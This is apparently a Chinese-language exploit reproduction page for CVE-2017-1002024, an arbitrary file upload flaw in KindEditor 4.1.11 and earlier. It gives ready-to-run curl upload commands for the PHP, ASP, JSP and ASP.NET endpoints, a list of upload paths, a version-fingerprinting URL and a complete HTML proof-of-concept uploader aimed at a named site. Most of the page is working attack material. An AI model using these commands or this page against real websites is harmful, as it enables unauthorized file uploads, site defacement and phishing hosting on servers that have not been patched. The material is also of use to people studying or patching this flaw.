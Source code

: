 （CVE-2017-1002024）Kindeditor \<=4.1.11 上传漏洞
=================================================

一、漏洞简介
------------

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.11编辑器中

二、漏洞影响
------------

Kindeditor \<=4.1.11

三、复现过程
------------

```
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/php/upload_json.php?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/asp/upload_json.asp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/jsp/upload_json.jsp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/aspx/upload_json.aspx?dir=file 
​```返回值为路径 
```



> json文件地址

    /asp/upload_json.asp
    
    /asp.net/upload_json.ashx
    
    /jsp/upload_json.jsp
    
    /php/upload_json.php

> 上传路径

    kindeditor/asp/upload_json.asp?dir=file
    
    kindeditor/asp.net/upload_json.ashx?dir=file
    
    kindeditor/jsp/upload_json.jsp?dir=file
    
    kindeditor/php/upload_json.php?dir=file

> 查看版本信息

    http://www.0-sec.org/kindeditor//kindeditor.js

![](./.resource/(CVE-2017-1002024)Kindeditor<=4.1.11上传漏洞/media/rId24.jpg)

> 构造poc

    <html><head>
    <title>Uploader</title>
    <script src="http://www.0-sec.org/kindeditor//kindeditor.js"></script>
    <script>
    KindEditor.ready(function(K) {
    var uploadbutton = K.uploadbutton({
    button : K(‘#uploadButton‘)[0],
    fieldName : ‘imgFile‘,
    url : ‘http://www.0-sec.org/kindeditor/jsp/upload_json.jsp?dir=file‘,
    afterUpload : function(data) {
    if (data.error === 0) {
    var url = K.formatUrl(data.url, ‘absolute‘);
    K(‘#url‘).val(url);}
    },
    });
    uploadbutton.fileBox.change(function(e) {
    uploadbutton.submit();
    });
    });
    </script></head><body>
    <div>
    <input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />
    <input type="button" id="uploadButton" value="Upload" />
    </div>
    </body>
    </html>
